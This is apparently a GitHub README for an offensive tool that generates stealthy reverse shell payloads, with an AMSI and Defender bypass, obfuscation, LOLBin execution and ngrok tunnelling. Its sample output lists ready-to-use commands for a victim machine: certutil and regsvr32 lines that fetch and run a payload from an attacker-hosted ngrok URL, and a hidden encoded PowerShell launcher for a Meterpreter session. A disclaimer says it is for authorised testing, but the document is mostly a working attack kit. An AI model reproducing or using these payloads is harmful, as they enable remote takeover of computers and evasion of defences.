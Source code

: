 # ultra-stealth-shell
# 🐉 Ultra Stealth Reverse Shell Generator

An advanced, automated reverse shell payload generator built for **authorized red teaming and ethical hacking** engagements.  
It delivers highly evasive PowerShell payloads using:

- 🔐 AMSI Bypass
- 🔁 Base64 Obfuscation
- 🎭 LOLBins (`mshta`, `certutil`, `regsvr32`)
- 🧨 Self-deleting script stagers
- 🚇 Ngrok tunnels for internet delivery
- 🎯 Integrated Metasploit handler

---

## ⚠️ DISCLAIMER

> 🔒 **This tool is for educational use and legal penetration testing only.**  
> 🚫 Unauthorized access to systems you don't own or have explicit permission to test is **illegal**.  
> 🧠 The author is not responsible for any damage or misuse.  
> 🛡️ Use it only in labs, CTFs, or client-approved red team ops.

---

## 📦 Features

| Feature                         | Description |
|----------------------------------|-------------|
| ✅ **Ngrok Integration**         | For NAT/firewall bypass |
| ✅ **MSF Payload Generator**     | Uses `msfvenom` & `msfconsole` |
| ✅ **AMSI & Defender Bypass**   | Using `$amsiInitFailed` |
| ✅ **PowerShell Base64 Launcher** | One-liner payload execution |
| ✅ **LOLBins Support**          | Execute with `mshta`, `certutil`, `regsvr32` |
| ✅ **Auto HTTP Payload Hosting** | Auto-hosts payload via Python web server |
| ✅ **Self-Destruct Payload**     | Deletes after execution |

---

## 🔧 Requirements

Install the following tools (most are pre-installed in Kali Linux):

| Tool            | Install Command                      |
|-----------------|--------------------------------------|
| Python 3        | `sudo apt install python3`           |
| Metasploit      | `sudo apt install metasploit-framework` |
| Ngrok           | [https://ngrok.com/download](https://ngrok.com/download) |
| curl            | `sudo apt install curl`              |

---

## 🔐 Ngrok Setup

1. Go to [https://dashboard.ngrok.com/signup](https://dashboard.ngrok.com/signup)
2. Create a free account and get your **auth token**
3. Authenticate Ngrok:


ngrok authtoken <your_ngrok_auth_token>

4. Test Ngrok:

ngrok tcp 4444

You should see something like:
tcp://0.tcp.ngrok.io:14233

Ngrok is now ready to be used by the script.

🚀 Usage
## 📦 Installation

```bash
git clone https://github.com/<your-username>/ultra-stealth-shell.git
cd ultra-stealth-shell
python3 ultra_stealth_shell.py
```
Output
```bash
[+] Payload selected: windows/meterpreter/reverse_https
[*] Starting Ngrok tunnel...
[+] Ngrok Forwarding: 0.tcp.ngrok.io:14233
[*] Creating stealth PowerShell payload...
[+] Saved stealth PowerShell payload as: payload.ps1

🎯 STEALTH PAYLOADS READY — DELIVER ONE OF THESE TO TARGET:
======================================================================
[🔥 ENV Trick] Save and run payload_launcher.bat on victim
[🔥 Direct PowerShell] powershell -nop -w hidden -enc <base64>
[🔥 mshta (LOLBIN)] mshta.exe "javascript:var sh=new ActiveXObject('WScript.Shell'); sh.Run('<powershell>');close()"
[🔥 certutil] certutil -urlcache -split -f http://0.tcp.ngrok.io:8000/payload.ps1 payload.ps1 && powershell -ExecutionPolicy Bypass -File payload.ps1
[🔥 regsvr32] regsvr32 /s /n /u /i:http://0.tcp.ngrok.io:8000/payload.ps1 scrobj.dll
======================================================================
[+] Hosted script at: http://0.tcp.ngrok.io:8000/payload.ps1
[*] Starting Metasploit handler...
```

